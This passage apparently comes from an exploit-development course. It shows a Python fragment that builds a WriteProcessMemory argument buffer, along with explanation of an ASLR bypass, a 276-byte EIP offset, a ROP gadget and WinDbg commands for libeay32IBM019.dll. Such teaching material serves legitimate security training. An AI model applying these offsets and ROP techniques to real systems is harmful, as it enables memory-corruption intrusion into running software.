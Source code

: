 # psCommandBuffer
wpm  = pack("<L", (WPMAddr))    		    # WriteProcessMemory Address
wpm += pack("<L", (dllBase + 0x92c04)) 	# Shellcode Return Address
wpm += pack("<L", (0xFFFFFFFF)) 		      # pseudo Process handle
wpm += pack("<L", (dllBase + 0x92c04)) 	# Code cave address 
wpm += pack("<L", (0x41414141)) 		      # dummy lpBuffer (Stack address) 
wpm += pack("<L", (0x42424242)) 		      # dummy nSize
wpm += pack("<L", (dllBase + 0xe401c)) 	# lpNumberOfBytesWritten
wpm += b"A" * 0x10

offset = b"A" * (276 - len(wpm))
...

As covered in an earlier exercise, we'll first gather the base address of libeay32IBM019, which we'll store in the dllBase variable.

Previously, when we used VirtualAlloc without an ASLR bypass, we had to generate and update all the function arguments (including the return and API addresses) at runtime with ROP.

This case is different. Our ASLR bypass resolves the address of WriteProcessMemory along with the code cave address, which is both the return address and the destination address for our shellcode. The last argument, lpNumberOfBytesWritten, is also calculated as an address inside the data section without the help of a ROP gadget.

As a result, we only need to dynamically update two values with ROP. We'll update the address of the shellcode on the stack (because it changes each time we execute the exploit) and the size of the shellcode, avoiding NULL bytes.

We should note that the 276-byte offset from the start of the buffer (used to overwrite EIP) has not changed from the previous module exploit.

We'll begin updating these values dynamically by focusing on the shellcode's dummy value on the stack. Repeating an earlier technique, we'll obtain a copy of ESP in a different register, align it with the dummy value on the stack, and overwrite it.

An excellent candidate is shown in Listing 48.
0x100408d6: push esp ; pop esi ; ret 
Gadget to obtain a copy of esp

We can use this gadget to cleanly obtain a copy of ESP in ESI.

From the output of rp++ shown above, we notice that the address of the gadget is 0x100408d6. This address is an absolute address, not an offset. Because of ASLR, we cannot directly use this address, so we'll need to calculate the offset.

When we execute rp++, it parses the DLL's PE header to obtain the preferred base load address. This address will be written as the gadget address in the output file. We'll use WinDbg to find the preferred base load address for libeay32IBM019.dll, and subtract the value of that address from each gadget we select in our output file.

The preferred base load address is called the ImageBase in the PE header and is stored at offset 0x34.
	dd libeay32IBM019 + 3c L1
	dd libeay32IBM019 + 108 + 34 L1
	